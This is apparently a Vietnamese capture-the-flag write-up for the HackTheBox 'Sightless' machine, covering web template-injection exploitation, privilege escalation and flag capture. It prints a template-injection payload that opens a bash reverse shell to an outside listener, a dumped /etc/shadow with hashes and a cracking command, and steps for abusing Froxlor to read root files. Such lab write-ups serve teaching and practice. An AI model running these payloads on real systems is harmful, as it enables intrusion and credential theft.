






<h2>Walkthrough qua cách pwn machine 'Sightless' trên Hackthebox (Free @ Season 6)</h2>

<h3>Hello các cậu nha, hôm nay tớ sẽ writeup một chút về cách tớ đã pwn thành công machine codename `Sightless` trên Hackthebox nha.</h3>

# 1. Preanalysis
Vẫn như mọi target thông thường, chúng ta sẽ bắt đầu với `nmap`

```bash
$ nmap -sSVC 10.10.11.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 22:17 +07
Nmap scan report for 10.10.11.32
Host is up (0.060s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/8%Time=67054D17%P=aarch64-unknown-linux-g
SF:nu%r(GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
SF:TP\x20Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20comman
SF:d:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.95 seconds
```

Nhìn qua thì chúng ta sẽ có các service ftp, ssh và http được chạy trên máy, mình sẽ bắt đầu với http trước nhé.

# 2. Pentest qua http

Trước hết, mình sẽ vào thử IP của target qua Firefox, và mình được redirect qua `http://sightless.htb`


Lướt qua website một vòng, mình thấy khá ấn tượng với các service ở dưới



Cùng xem qua service đầu tiên (SQLMap) và bắt đầu khai thác luôn nha.

## 2.1: Pentest SQLMap



Oops, chúng ta đang gặp một số vấn đề khi truy cập vào SQLMap, nhìn qua thì là do DNS chưa được resolve, cùng giải quyết nha.

```bash
echo "10.10.11.32 sqlmap.sightless.htb" >> /etc/hosts
```

Và đây là SQLMap v6.10.0 được chạy trên server 



Áp dụng một số "kỹ năng" research, chúng ta có thể xác định được SQLMap version này dính một [](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb) (`CVE-2022-0944`)

Cùng đọc POC và reproduce lại cùng mình nhé 

```
* Navigate to http://localhost:3000/
* Click on Connections->Add connection
* Choose MySQL as the driver
* Input the following payload into the Database form field

{{ process.mainModule.require('child_process').exec('id>/tmp/pwn') }}
```

Nếu không nhầm, thì chúng ta hoàn toàn có thể chạy cho mình lệnh riêng thông qua exploit kia, cùng khai thác nhé.

## 2.2: Khai thác SQLMap thông qua exploit

Theo như hướng dẫn, mình sẽ vào Connections -> Driver -> MySQL -> Trong phần `Database`, chúng ta sẽ nhập payload 

Trong bài writeup này, mình sẽ dùng payload sau: 
```
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.69.69/4444 0>&1"') }}
```

Giải thích nhanh gọn, thì những gì payload kia sẽ làm là lấy shell thông qua protocol TCP, chúng ta cùng chuẩn bị nhé.

Chạy một listener trên máy trước: `nc -lvnp 4444`

Và sau đó điền payload vào trường `Database`, nhấn test.


Đơn giản vậy thôi, chúng ta đã lấy được shell rồi =)))

# 3. Kiểm tra hệ thống 

Sau khi đã lấy được quyền root, mình sẽ xem qua file `/etc/shadow`, để xem danh sách các user có mặt trong hệ thống

```bash
$ cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

Nhìn sơ qua, thì cả user `root` và `michael` đều được đặt password, chúng ta sẽ xem qua `michael` trước nhé.

## 3.1: Pwn mật khẩu user michael bằng John the Ripper 

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Đây chỉ là lệnh mẫu, bạn có thể tìm hiểu hơn qua docs của John the Ripper nhé.

Sau khi có mật khẩu, chúng ta sẽ truy cập bằng ssh 

# 4. Capture user flag

Tiến hành ssh vào hệ thống
```bash
$ ssh michael@sightless.htb
The authenticity of host 'sightless.htb (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? eys
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
michael@sightless.htb's password: 
Last login: Tue Oct  8 11:49:22 2024 from 10.10.14.76
michael@sightless:~$ ls
user.txt
michael@sightless:~$ cat user.txt
f22cd9b8e8fxxxxxxxxxxxxxxxxxxx
# Tự làm đi chứ :3
michael@sightless:~$ 
```

# 5. Đào sâu hon vào hệ thống

Mình sẽ chạy `netstat` để xem các port đang listen ở trên máy:
```bash
$ netstat -nltp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:42931         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:44325         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56283         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -
```

Chúng ta sẽ cùng phân tích port 8080 nha.

# 5.1: Phân tích Froxlor

Trước hết, mình sẽ thử redirect port 8080 về máy cùng `chisel`, bạn có thể sử dụng sftp hoặc netcat để up binary lên nhé.

Sau khi truy cập, mình nhận được trang web này



Tiến hành port forwarding, chúng ta nhận được remote debugging của Chrome.



Để ý traffic của website đầu tiên qua tab Network, chúng ta sẽ biết được mật khẩu đăng nhập.



Tiến hành đăng nhập với username và password ở trên, chúng ta đã vào được bên trong.

# 5.2: Khai thác Froxlor

Vào phần PHP => PHP-FPM Versions và tiến hành tạo một version mới.

Mình sẽ copy root flag vào `/tmp` và đổi quyền


Sau đó, gửi request để trigger restart service `php-fpm`:
```
GET http://127.0.0.1:8080/admin_settings.php?start=phpfpm
```

Làm tương tự với `chown michael /tmp/root.txt`

# 6. Capture the flag :)

Cũng trong user `michael`, mình sẽ lấy nội dung của `root.txt`:

```
michael@sightless:/tmp$ cat root.txt 
713caec3f2*************
michael@sightless:/tmp$ 
```

Submit, vậy là bạn thành công rồi ;)

# 7. Tổng kết 

Mình đánh giá `Sightless` là một machine không quá khó, tuy nhiên, mình vẫn phải Google cho gợi ý tại đoạn Remote Debugging Port, hi vọng những gì mình đã trải qua có thể giúp đỡ bạn chơi được CTF tốt hơn nha :3.

Cảm ơn đã đọc qua bài viết của tớ ạaa.
